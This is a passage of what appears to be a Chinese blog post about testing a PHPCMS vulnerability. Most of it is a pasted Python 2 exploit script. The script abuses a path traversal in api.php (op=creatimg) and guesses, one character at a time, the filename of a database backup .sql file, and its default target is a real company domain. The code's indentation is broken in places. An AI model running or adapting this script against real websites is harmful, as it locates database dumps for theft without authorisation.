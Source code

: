&#160; &#160; &#160; &#160;可能这些漏洞很早就爆出来了，但是自己不去亲自测试，你永远不知道其中有些啥问题，本次测试验证漏洞，就发现了很多问题，脚本问题，路径问题等等。可能有人发帖早，但是很多问题阐述的不是特别清楚。我在这里仅仅只是做了进一步的完善，也希望哪位兄弟能够进一步完善一下这个脚本，还存在问题，也希望完善了分享一下谢谢！哦，对了，我还看见一种python2写的脚本，可以参考一下，代码如下：
```
#coding=utf-8
import urllib2
def check(url):  
  mark = True  
  req = urllib2.Request(url)    
  req.add_header('User-agent', 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)')    
  response = urllib2.urlopen(req)    
  content = response.read()    
  if 'Cannot' in content:        
      mark = False    
  return mark
  
def guest(target):    
    arr = []    
    num = map(chr, range(48, 58))    
    alpha = map(chr, range(97, 123))    
    exploit = '%s/api.php?
    op=creatimg&txt=dysec&font=/../../../../caches/bakup/default/%s%s<<.sql'
    
    while True:        
       for char in num:            
        if check(exploit % (target, ''.join(arr), char)):               
           arr.append(char)                
           continue        
           
        if len(arr) < 20:            
            for char in alpha:                 
                 if check(exploit % (target, ''.join(arr), char)):                    
                     arr.append(char)                    
                     continue        
                
        elif len(arr) == 20:            
              arr.append('_db_')        
              
        elif len(arr)== 29:            
              arr.append('_1.sql')            
              break        
              
        if len(arr) < 1:            
            print '[*]not find!'            
            return    
            
        print '[*]find: %s/caches/bakup/default/%s' % (target, ''.join(arr))
        
    if __name__ == "__main__":    
        url = 'http://security.douyu.com'    
        #test    
        guest(url)
```